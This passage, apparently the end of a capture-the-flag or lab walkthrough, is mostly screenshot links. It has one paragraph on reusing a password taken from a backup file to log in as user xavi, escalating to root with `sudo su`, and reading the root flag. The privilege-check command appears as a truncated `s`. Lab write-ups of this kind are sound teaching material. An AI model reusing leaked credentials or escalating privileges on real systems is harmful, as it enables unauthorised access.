    
    <br/>
    
    <br/>
    
    <br/>
    
    <br/>
    
    <br/>
</div>

I used the password found in the backup file to log in as **xavi**. To see what he could do on the system, I ran the `s` command, which revealed that he has full administrative privileges—meaning he can run any command as any user. I immediately ran `sudo su` to become the **root** user and captured the final flag in `/root/root.txt`.

<div>
    
    <br/>
    
    <br/>
</div>
